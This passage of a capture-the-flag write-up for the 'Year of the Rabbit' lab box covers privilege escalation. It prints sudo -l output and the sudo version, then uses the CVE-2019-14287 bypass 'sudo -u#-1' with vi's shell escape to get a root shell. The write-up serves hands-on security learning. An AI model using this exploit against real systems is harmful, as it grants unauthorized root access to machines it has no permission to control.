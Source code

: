 Now we need to escalate our privileges. Try the following command to see what the current user can execute as root:

<pre>sudo -l</pre>

![sudo -l](https://imgur.com/k1mM9Rn.png)

<pre>User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt</pre>

This basically means that gwendoline user can run vi command to read user.txt as every other user except root.

Notice how it is (ALL, !root) instead of (ALL, ALL). This is problematic because we can’t use sudo as root. 

This was a difficult part for me because I had no idea how to run vi as root. I couldn't exploit vi, so I researched ways to exploit sudo. You can find the version of sudo with the following command:

<pre>sudo -V</pre>

![sudo v](https://imgur.com/5VhxkRT.png)

<pre>Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3</pre>

I eventually found this CVE about exploiting sudo:

[Sudo Exploit - ExploitDB](https://www.exploit-db.com/exploits/47502)

This is a good website explaining the exploit:

[cve-2019-14287 - whitesourcesoftware](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287)

This is essentially the exploit:

<pre>sudo -u#-1</pre>

So we can construct the following command to use vi and escelate the privileges:

<pre>sudo -u#-1  /usr/bin/vi /home/gwendoline/user.txt
:set shell=/bin/sh
:shell</pre>

![sudo rooooottttt](https://imgur.com/0gNulGc.png)

The last flag is in /root/root.txt.

